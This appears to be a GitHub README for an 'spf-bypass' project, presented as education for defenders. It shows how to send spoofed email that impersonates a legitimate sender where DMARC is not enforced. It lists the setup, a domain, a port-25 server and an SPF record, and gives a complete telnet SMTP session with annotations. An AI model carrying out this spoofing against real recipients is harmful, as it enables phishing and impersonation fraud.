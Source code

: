 # spf-bypass
PLEASE NOTE THIS PROJECT WILL BE SUBJECT TO FREQUENT CHANGES

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see below for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)

Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

To perform an SPF-bypass attack, simply run the below telnet commands that can be executed on any Windows or Linux endpoint. Replace <target.mailserver.com> with the target mail server you're delivering the spoofed email to (i.e. the recipient - lookup the MX record of the recipient domain to identify this), replace <attacker@attackerdomain.com> with the domain you procured and setup earlier, replace <Legitimate_Sender@spoofed.com> with the address and domain you're spoofing and replace <target@target.com.au> with your target recipient.


    telnet target.mailserver.com 25
    helo attackerdomain.com
    mail from: attacker@attackerdomain.com
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test

    .
What we're abusing here is a weakness in the way emails are delivered, authenticated and presented to a users screen. If we break down each component of the above mail delivery we can see how the SPF-bypass abuses a domain misalignment between the 'SMTP MailFrom' and 'Mail Header From':

    telnet target.mailserver.com 25 
    helo attackerdomain.com <--- If the SMTP.MailFrom is empty (row below), SPF authentication instead relies on the SMTP.helo
    mail from: attacker@attackerdomain.com <-- This is where SPF checks are typically performed. If we mis-align this to the 'Mail Header From' we can trick the recipient
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com> <--- This is where SPF-bypass occurs - DMARC protects against this by performing an alignment check betwen both 'From' values
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test
